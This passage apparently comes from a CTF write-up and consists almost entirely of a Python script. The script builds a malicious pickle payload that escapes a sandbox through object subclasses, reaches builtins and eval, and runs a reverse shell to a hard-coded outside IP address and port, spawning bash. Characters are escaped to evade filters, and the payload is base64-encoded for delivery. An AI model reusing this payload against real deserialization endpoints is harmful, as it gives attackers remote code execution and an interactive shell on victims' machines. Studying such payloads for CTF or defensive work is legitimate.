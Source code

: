 ```python
import base64
raw = (
    b"\x80\x04"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__getattribute__\n"
    b"\x93"
    b"p1\n"
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    b"(" b"I134\n" b"t" b"R"
    b"p2\n"
    b"g1\n"
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"
    b"g1\n" b"(" b"g3\n" b"V__globals_\u005f\n" b"t" b"R"
    b"p4\n"
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"
    b"(" b"V__builtins_\u005f\n" b"t" b"R"
    b"p6\n"
    b"g1\n" b"(" b"g6\n" b"V__getitem_\u005f\n" b"t" b"R"
    b"p7\n"
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"
    b"(V__import_\u005f('o\u0073').sy\u0073tem(\"export RHOST='13.213.213.17';export RPORT=10774;python -c \\\"import sy\u0073,socket,o\u0073,pty;s=socket.socket();s.connect((o\u0073.getenv('RHOST'),int(o\u0073.getenv('RPORT'))));[o\u0073.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('bash')\\\"\")\n"
    b"t"
    b"R"
    b"."
)
print(base64.b64encode(raw))
```

![](images/WriteUpPTITCTF_vongloai_image25.png)

